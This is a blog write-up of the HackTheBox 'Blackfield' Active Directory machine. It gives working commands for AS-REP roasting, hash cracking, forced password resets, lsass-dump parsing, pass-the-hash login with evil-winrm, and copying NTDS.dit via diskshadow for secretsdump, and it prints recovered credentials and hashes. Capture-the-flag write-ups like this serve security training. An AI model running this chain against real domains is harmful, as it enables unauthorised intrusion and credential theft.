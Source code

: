 ```yaml
---
layout: post
title: "Blackfield"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


```bash
sudo nmap -sC -sV -p- 10.10.10.192 -oN blackfield -T4
``` 
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528212507.png)
 looks like a DC  , so let's try to enumerate 

 I tried rpcclient null session , and ldap null session , and tried to look for shares. 
the weird things here is smbclient did show a list of shares , while nxc (using -u ''-p'' )shows that we don't have permission to enumerate the shares .

when dealing with smb shares the best way to enumerate is smbmap

```bash
smbmap -H 10.10.10.192 -u null
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215120.png)

we can read `profiles$`
seems like list of users , let's create a wordlists with this users and try asreproasting 
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215355.png)

```bash
impacket-GetNPUsers Blackfield.local/  -usersfile users.txt	
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215859.png)

let's crack it 
```bash
hashcat -a 0 -m 18200 asreperoasting /usr/share/wordlists/rockyou.txt 
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528220522.png)

we got support password , let's run bloodhound 
```bash
nxc ldap 10.10.10.192 -u 'support' -p '#00^BlackKnight' -c all --bloodhound -ns 10.10.10.192
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528220830.png)

after uploading it to bloodhound we can see that our user has `forcechangepassword` over `audit2020`

```bash
net rpc password "AUDIT2020" "d0s3nt123@" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "DC01.BLACKFIELD.LOCAL"
```
```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@'  
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528221919.png)

let's enumerate shares using this new credentials 
```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --shares
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222207.png)

if we spider this share 

```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --share forencsic -M spider_plus
```
very juicy
![/home/user/myblog/_site](/assets/img/posts/Active/Pasted image 20240528222511.png)

after getting the zip and unzip the files , we can use `pypkatz` to read the contend of the DUMP 
```bash
pypykatz lsa minidump  lsass.DMP
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222912.png)
we found couples of hashes but the only one that work was `svc_backup`
let's see what we can do with it , back to `bloodhound`

we can get shell using `evil-winrm`
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222958.png)

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223137.png)


this user is part of backup operator group so we can use it to read any files we want on the box 
at first I tried to dump the `SAM` But the administrator hash on it didn't work
```batch
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223354.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223450.png)

we can host an smbserver and transfer it very quick 

but the SAM database will not lead us anywhere  , since the Administrator hash didn't work

so I tried to dump the `NTDS`

for that I need to used `diskshadow.exe` utility
we can use the following script with the diskshadows.exe (I took it  from [hackthebox academy](https://academy.hackthebox.com/module/67/section/601) )



![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224528.png){: normal}

before send it to the machine , we need `unix2dos` so the stupid windows can read our script
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224701.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224753.png)

```
diskshadow.exe /s disk.txt
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224954.png)


![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225012.png)

we can now host an smbserver and transfer the `NTDS.dit` easily
then use `secretsdump` to read the `NTDS`
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV LOCAL
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225243.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225358.png)